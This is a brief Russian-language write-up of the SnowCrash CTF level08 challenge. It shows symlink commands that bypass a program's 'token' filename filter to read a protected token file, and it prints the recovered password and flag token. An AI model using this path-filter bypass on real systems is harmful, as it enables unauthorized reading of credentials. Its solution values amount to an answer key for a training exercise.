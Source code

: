 В папке Home находятся два файла.
Файл "token" с токеном, к которому мы не имеем прав доступа,
и программа level08

При попытке использования выяснилось что программы выводит содержимое файла.
Но, если файл называется token, или в пути к файлу есть "token", 
то она отказывается выводить данные.

Создаём символьную ссылку в папке tmp на файл token, называем её как угодно.
И используем ссылку в имеющейся программе.

level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/aaa
level08@SnowCrash:~$ ./level08 /tmp/aaa
quif5eloekouj29ke0vouxean
...
...
...
...
Для level09 пароль не подходит.... 
Думаем.... 
Ещё думаем...
Пробуем зайти в flag08.
Подходит!

getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
